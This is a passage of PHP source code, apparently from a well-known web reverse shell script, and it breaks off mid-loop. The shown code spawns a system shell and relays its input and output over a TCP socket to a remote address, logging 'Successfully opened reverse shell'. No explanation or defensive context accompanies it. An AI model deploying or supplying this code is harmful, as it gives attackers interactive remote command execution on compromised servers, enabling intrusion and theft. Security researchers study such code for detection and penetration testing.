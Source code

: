 ```

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
```